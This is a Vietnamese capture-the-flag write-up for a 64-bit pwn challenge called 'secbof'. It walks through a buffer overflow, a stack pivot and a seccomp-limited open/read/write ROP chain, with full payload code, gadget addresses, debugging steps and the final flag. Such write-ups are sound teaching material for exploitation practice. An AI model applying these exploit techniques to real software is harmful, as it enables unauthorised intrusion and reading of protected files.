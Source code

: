 # secbof
## Challenge
[chall](../secbof)
## Find vulnerabilities
- Đọc qua code ta thấy lỗ hổng buffer overflow và lớp bảo vệ seccomp trong hàm install_filter

![alt text](../image/image-13.png)
- Kiểm tra seccomp xem chúng ta được dùng những hàm nào:

![alt text](../image/image-14.png)

Chúng ta được dùng các hàm open, read, write và exit
- Kiểm tra các lớp bảo vệ:

![alt text](../image/image-15.png)

NX bật để chống shellcode và PIE tắt
- Như vậy ta có thể exploit theo các bước sau:

B1: Stack pivot vào vùng nhớ ngoài

B2: Dùng ROPgadget để in ra flag
## Exploit
Bước 1: Stack pivot vào vùng nhớ ngoài
```python3
rw_section = 0x4c6a00
payload = b'a'*0x80 + p64(rw_section) + p64(exe.sym['main'] + 97)
p.sendlineafter(b'Input> ', payload)
```
Bước 2: Dùng ROPgadget
- Để có thể open, read, write thì chúng ta phải thỏa mãn điều kiện sau:

![alt text](../image/image-16.png)

- Lấy lần lượt các ROPgadget pop rdi, pop rsi, pop rdx, pop rax và syscall
- Lần nhập tiếp theo, chúng ta truyền vào `flag.txt\0`, tiếp tục stack pivot và truyền vào các syscall. Chúng ta truyền vào các hàm open, read, write theo lý thuyết:
```python3
rw_section = 0x4c6a00
pop_rdi = 0x000000000040204f
pop_rsi = 0x000000000040a0be
pop_rdx_rbx = 0x000000000048630b
pop_rax = 0x0000000000450507
syscall = 0x0000000000401e04
payload = b'flag.txt\0'
payload = payload.ljust(0x80, b'a') + p64(rw_section)
# open
payload += p64(pop_rax) + p64(0x2) + p64(pop_rdi) + p64(rw_section - 0x80) + p64(pop_rsi) + p64(0)
payload += p64(pop_rdx_rbx) + p64(0) + p64(0) + p64(syscall)
# read
payload += p64(pop_rax) + p64(0) + p64(pop_rsi) + p64(rw_section + 0x150) 
payload += p64(pop_rdx_rbx) + p64(100) + p64(0) + p64(syscall)
# write
payload += p64(pop_rax) + p64(1) + p64(pop_rdi) + p64(1) + p64(pop_rdx_rbx) + p64(100) + p64(0) + p64(syscall)
p.sendline(payload)
```
- Có 1 vấn đề là khi chúng ta thực hiện syscall read thì thanh ghi rax có giá trị bằng 0 có nghĩa rằng chương trình không mở được file `flag.txt`. Lỗi nằm ở ROP syscall

![alt text](../image/image-17.png)

![alt text](../image/image-18.png)

Sau khi thực hiện syscall xong thì chương trình nhảy vào 0x401e00, đó là điều chúng ta không mong muốn.
- Do đó, chúng ta phải tìm ROP syscall có câu lệnh ret và không được nhảy hay gọi bất cứ địa chỉ hoặc thanh ghi nào.

Đây là syscall chúng ta cần tìm kiếm

![alt text](../image/image-19.png)

- Sửa payload:
```python3
rw_section = 0x4c6a00
pop_rdi = 0x000000000040204f
pop_rsi = 0x000000000040a0be
pop_rdx_rbx = 0x000000000048630b
pop_rax = 0x0000000000450507
# syscall = 0x0000000000401e04
syscall = 0x4816f2
payload = b'flag.txt\0'
payload = payload.ljust(0x80, b'a') + p64(rw_section)
# open
payload += p64(pop_rax) + p64(0x2) + p64(pop_rdi) + p64(rw_section - 0x80) + p64(pop_rsi) + p64(0)
payload += p64(pop_rdx_rbx) + p64(0) + p64(0) + p64(syscall)
# read
payload += p64(pop_rax) + p64(0) + p64(pop_rsi) + p64(rw_section + 0x150) 
payload += p64(pop_rdx_rbx) + p64(100) + p64(0) + p64(syscall)
# write
payload += p64(pop_rax) + p64(1) + p64(pop_rdi) + p64(1) + p64(pop_rdx_rbx) + p64(100) + p64(0) + p64(syscall)
p.sendline(payload)
```
- Chương trình quay lại hàm open. Chúng ta phải sửa lại rbp trước khi ret ở hàm main và phải thêm 1 địa chỉ phù hợp nữa sau syscall open để nhảy vào pop rax tiếp theo vì sau syscall có lệnh pop rbp
```python3
payload = b'flag.txt\0'
payload = payload.ljust(0x80, b'a') + p64(rw_section + 0x58)
# open
payload += p64(pop_rax) + p64(0x2) + p64(pop_rdi) + p64(rw_section - 0x80) + p64(pop_rsi) + p64(0)
payload += p64(pop_rdx_rbx) + p64(0) + p64(0) + p64(syscall) + p64(0x4c6ae0 - 0x8)
```
Trong đó, rw_section + 0x58 trỏ tới 0x4c6ae0 - 0x8 và 0x4c6ae0 - 0x8 trỏ tới syscall open để khi nhảy tới lệnh ret thì chương trình sẽ thực thi syscall tiếp theo 
- Chạy syscall read thất bại.

![alt text](../image/image-20.png)

- Lý do là bởi chúng ta chưa chuyển dữ liệu từ thanh ghi rax vào rdi, do đó ta phải tìm thêm 1 ROPgadget mới

`ROPgadget --binary chal | grep "xchg edi, eax"`

![alt text](../image/image-21.png)
![alt text](../image/image-22.png)

- Kiểm tra thấy ROPgadget này hợp lệ, ta sửa lại payload:
```python3
# read
payload += p64(xchg_edi_eax) + b'a'*0x38 + p64(pop_rax) + p64(0) + p64(pop_rsi) + p64(rw_section + 0x150) 
payload += p64(pop_rdx_rbx) + p64(100) + p64(0) + p64(syscall)
# write
payload += p64(pop_rax) + p64(1) + p64(pop_rdi) + p64(1) + p64(pop_rdx_rbx) + p64(100) + p64(0) + p64(syscall)
p.sendline(payload)
```
Ta phải truyền thêm 0x38 bytes rác vì có lệnh `add rsp, 0x38`
- Đến đây thì chương trình chạy thành công và ta đã lấy được flag
## Payload
[script](solve.py)
## Flag
```utflag{r0p_with_4_littl3_catch}```